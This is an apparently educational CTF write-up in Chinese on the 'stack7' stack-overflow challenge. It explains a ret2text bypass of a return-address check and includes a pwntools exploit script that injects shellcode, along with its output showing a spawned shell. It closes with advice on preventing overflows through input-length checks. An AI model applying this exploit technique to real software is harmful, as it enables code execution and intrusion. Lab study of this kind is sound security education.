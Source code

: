 这里对ret地址的限制比上一题还要严格，因为`0xb & 0xf `的结果是`0xb`,所以返回`system()`也不能用了。通过观察IDA pro发现，text段的开头都是`0x08`，如果返回到text段就不会受到限制，思考过后，可以构造数据如下。

```
     ----------------------------------
    |                     ret          |
    |                      |           |           
    |                      |           |           
[shellcode]["aaaa"...][text_address][shellcode]
```
（其实这个构造对于stack6也是适用的）
从IDA pro的Text View窗口中可以找到ret指令的地址有`0x08048587`。
```
.text:08048586                 leave
.text:08048587                 retn
.text:08048587 getpath         endp
```
想好构造后就可以开始编写脚本了。
```python
from pwn import *
#context.log_level = 'debug'
io = process('./stack7')
sc = asm(shellcraft.i386.sh())
payload = sc
payload += (80-len(sc))*'a'
payload += "\x87\x85\x04\x08"
payload += "\x1c\xcf\xff\xff"
io.sendline(payload)
io.interactive()
```
运行结果
```
$ python stack7.py
[+] Starting local process './stack7': pid 7737
[*] Switching to interactive mode
input path please: got path jhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀aaaaaaaaaaaaaaaaaaaa\x87\x85\x0aaaaaaaaaaaa\x87\x85\x0\x1c��\xff
$ echo u got it!
u got it!
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './stack7' stopped with exit code 0 (pid 7737)
[*] Got EOF while sending in interactive

```
### 【总结】
本次实验熟悉了ret2libc和ret2text的栈溢出套路。
可以发现，要使栈溢出发生，要满足以下条件：
- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。